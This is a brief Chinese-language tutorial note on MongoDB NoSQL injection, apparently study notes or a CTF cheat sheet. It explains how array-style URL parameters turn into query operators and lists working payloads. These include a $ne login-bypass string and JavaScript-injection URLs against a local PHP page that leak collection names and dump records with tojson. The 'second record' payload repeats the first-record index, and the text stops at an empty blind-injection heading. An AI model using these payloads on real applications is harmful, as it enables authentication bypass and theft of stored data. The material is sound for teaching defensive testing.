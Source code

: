 ## Mongodb

### 基本概念

mongodb函数区分大小写

mongodb使用//  <!--来注释掉查询的结尾

在nosql中 || 1==1 相当于mysql中的 or 1=1

### 查询

执行查询的语句

db.test.find({username:'test',password:'test'});

当传入如下url

?username[xx]=test&password=test，则让username变量变成一个数组

mongodb对于多维数组执行的是

db.test.find({username:{'xx':'test'},password:'test'});

即可以进行以下攻击

?username[$ne]=test&password[$ne]=test

传入的$ne是一个mongodb的操作符

执行语句为  db.test.find({username:{'$ne':'test'},password:{'$ne':'test'}});

相当于sql中的 select *from test where username!='test' and password!='test';



尝试攻击

http://127.0.0.1/1.php?username=test'&password=test;

http://127.0.0.1/1.php?username='test'});return {username:1,password:2};//&password=test

爆所有集合名

http://127.0.0.1/1.php?username='test'});return {username:tojson(db.getCollectionNames()),password:2};//&password=test

db.getCollectionNames()返回的是数组，需要用tojson转换为字符串

爆test集合的第一条数据

http://127.0.0.1/1.php?username='test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test

db.user.find()返回的是数组，需要用tojson转换为字符串

爆第二条数据

http://127.0.0.1/1.php?username='test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test

### 盲注
